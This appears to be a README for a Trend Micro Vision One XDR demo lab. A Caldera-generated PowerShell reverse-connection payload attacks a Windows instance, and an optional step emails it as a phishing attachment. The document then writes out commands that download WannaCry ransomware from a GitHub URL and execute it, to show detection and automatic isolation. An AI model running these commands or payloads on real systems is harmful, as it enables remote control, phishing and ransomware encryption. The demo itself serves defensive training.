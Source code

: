 # Trend Micro Vision One Demo

__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox

__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region)
The following information has to be provided:
-Stack name - Name of the stack you are creating (example XDR-Demo)
-KeyName - KeyPar to be used when creating the EC2 Instances
-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided
--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)
--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts

__Testing the demo environment

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).

__What to expect from this demo!

This demo script was created to demonstrate the following use case:
+ Attacker trying to get the control of an Windows Instance
+ Attacker is using Mitre Caldera as C&C Server
++ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.
++ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer
++ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.
++ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.
++ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.

__How to demo

1- Open the RDP Session and show the basecamp components running on background;
2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;
3- Open the Mitre Caldera Management Console, and create a new malicious payload
--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform
--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)
--Copy the Powershell script created for this agent
4- Execute the powershell script on the Windows Instance

Optional (in case you want to demonstrate it in conjunction with CAS)
4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step
4.1- Send an email with the malicious attachment to the target user

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents manu)
6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.
7- Select the New Operation (name it as DemoXDR)
8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.
9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).
10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.
10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491
11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?
12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.
13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.
13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.
13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.
13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"
14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"
15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.
16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.


https://ps2exe.azurewebsites.net/

